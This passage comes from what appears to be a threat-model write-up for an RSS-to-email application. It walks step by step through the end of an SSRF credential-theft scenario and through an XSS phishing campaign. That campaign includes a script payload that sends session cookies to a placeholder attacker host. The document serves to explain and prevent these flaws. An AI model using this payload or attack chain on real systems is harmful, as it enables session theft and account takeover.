 #### Phase 5: Persistence & Exfiltration (Day 6-7)
```
19. Attacker uses API keys to generate content
20. Racks up $5,000 in API charges
21. Uses email credentials to:
    - Read user's emails
    - Send phishing emails to contacts
    - Access other services via password reset
22. Attacker maintains access for weeks
```

**Total Impact**:
- $5,000 API overcharges
- Email account compromised
- AWS resources potentially misused
- Privacy violation
- Reputation damage

**Prevention**: Fix SSRF (URL validation) + Remove credentials from config

---

### Scenario 2: The XSS Phishing Campaign

**Attacker Profile**: Malicious RSS Operator  
**Objective**: Harvest webmail session cookies  
**Timeline**: 1 day

#### Phase 1: Preparation
```
1. Attacker compromises WordPress blog
2. Modifies RSS feed plugin
3. Injects XSS payload in article titles:
   <script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
```

#### Phase 2: Distribution
```
4. Users subscribe to popular tech blog
5. Multiple victims add RSS feed to configs
6. Application fetches poisoned RSS
```

#### Phase 3: Exploitation
```
7. Application generates email with XSS payload
8. Jinja2 template has no auto-escaping
9. XSS payload embedded in email HTML
10. User opens email in Gmail/Outlook Web
11. JavaScript executes in browser context
12. Cookie exfiltrated to attacker server
```

#### Phase 4: Account Takeover
```
13. Attacker receives session cookies
14. Replays cookies in own browser
15. Gains access to victim's webmail
16. Reads sensitive emails
17. Sends phishing emails to contacts
18. Accesses linked services (password resets)
```
